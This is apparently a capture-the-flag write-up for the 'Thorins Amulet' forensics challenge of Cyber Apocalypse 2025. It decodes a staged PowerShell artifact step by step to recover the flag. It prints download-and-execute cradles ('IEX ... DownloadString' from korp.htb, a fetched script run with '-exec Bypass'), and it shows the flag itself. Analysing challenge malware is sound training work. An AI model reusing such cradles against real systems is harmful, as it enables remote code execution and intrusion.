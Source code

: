 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Thorins Amulet Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Thorins Amulet
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>



## Thorins Amulet

> Solved by Starry-Lord


![](https://i.imgur.com/KHsPmEl.png)


inside the zip downloadable we could find `artifact.ps1` :


    function qt4PO {
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
            exit
        }
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
    }
    qt4PO

Base 64 string decoded to the following:


    IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")

But it was not giving a connection unless you had the correct `COMPUTERNAME` environement variable. This will temporarily change it:


    $env:COMPUTERNAME = "WORKSTATION-DM-0043"

With that we could run the powershell if we wanted, but visiting the url from the challenge docker was enough to get to the next stage which returned an `update.ps1`:


    function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq

This time I used curl with headers in order to pass the `X-ST4G3R-KEY` which was needed to get the last bit:

curl command:

    curl -H "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" http://94.237.57.230:59390/a541a

a541a.ps1:

    $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
    ($a35-split"(..)"|?{$_}|%{\[char\][convert]::ToInt16($_,16)}) -join ""

Decode hex for the flag:

    HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}



